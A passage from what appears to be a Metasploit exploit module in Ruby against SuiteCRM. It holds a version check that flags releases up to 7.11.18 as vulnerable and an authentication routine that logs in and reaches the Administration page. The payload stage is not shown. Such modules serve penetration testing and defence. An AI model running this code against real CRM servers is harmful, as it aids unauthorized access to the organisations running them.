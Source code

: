         version = version_match.partition(' ').last

        if version.nil? || version.empty?
          about_url = "#{full_uri}#{normalize_uri(target_uri, 'index.php')}?module=Home&action=About"
          return Exploit::CheckCode::Unknown("Check #{about_url} to confirm version.")
        end

        patched_version = Rex::Version.new('7.11.18')
        current_version = Rex::Version.new(version)

        return Exploit::CheckCode::Appears("SuiteCRM #{version}") if current_version <= patched_version

        Exploit::CheckCode::Safe("SuiteCRM #{version}")
      end

      def authenticate
        print_status("Authenticating as #{datastore['USER']}")
        initial_req = send_request_cgi(
          {
            'method' => 'GET',
            'uri' => normalize_uri(target_uri, 'index.php'),
            'keep_cookies' => true,
            'vars_get' => {
              'module' => 'Users',
              'action' => 'Login'
            }
          }
        )

        return false unless initial_req && initial_req.code == 200

        login = send_request_cgi(
          {
            'method' => 'POST',
            'uri' => normalize_uri(target_uri, 'index.php'),
            'keep_cookies' => true,
            'vars_post' => {
              'module' => 'Users',
              'action' => 'Authenticate',
              'return_module' => 'Users',
              'return_action' => 'Login',
              'user_name' => datastore['USER'],
              'username_password' => datastore['PASS'],
              'Login' => 'Log In'
            }
          }
        )

        return false unless login && login.code == 302

        res = send_request_cgi(
          {
            'method' => 'GET',
            'uri' => normalize_uri(target_uri, 'index.php'),
            'keep_cookies' => true,
            'vars_get' => {
              'module' => 'Administration',
              'action' => 'index'
            }
          }
        )
